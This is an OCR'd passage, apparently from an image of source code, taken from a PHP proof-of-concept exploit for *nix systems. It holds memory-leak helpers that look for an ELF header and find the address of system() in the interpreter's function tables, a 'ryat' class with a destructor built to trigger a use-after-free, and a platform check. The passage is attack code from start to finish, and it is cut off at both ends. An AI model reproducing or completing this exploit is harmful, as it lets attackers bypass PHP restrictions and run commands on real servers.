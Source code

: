 	if($leak == 0x10102464c457f) { # ELF header

	return $addr;

	}

	}

	}


	function get\_system($basic\_funcs) {

	$addr = $basic\_funcs;

	do {

	$f\_entry = leak($addr);

	$f\_name = leak($f\_entry, 0, 6);


	if($f\_name == 0x6d6574737973) { # system

	return leak($addr + 8);

	}

	$addr += 0x20;

	} while($f\_entry != 0);

	return false;

	}


	class ryat {

	var $ryat;

	var $chtg;


	function \_\_destruct()

	{

	$this->chtg = $this->ryat;

	$this->ryat = 1;

	}

	}


	class Helper {

	public $a, $b, $c, $d;

	}


	if(stristr(PHP\_OS, 'WIN')) {

	die('This PoC is for \*nix systems only.');
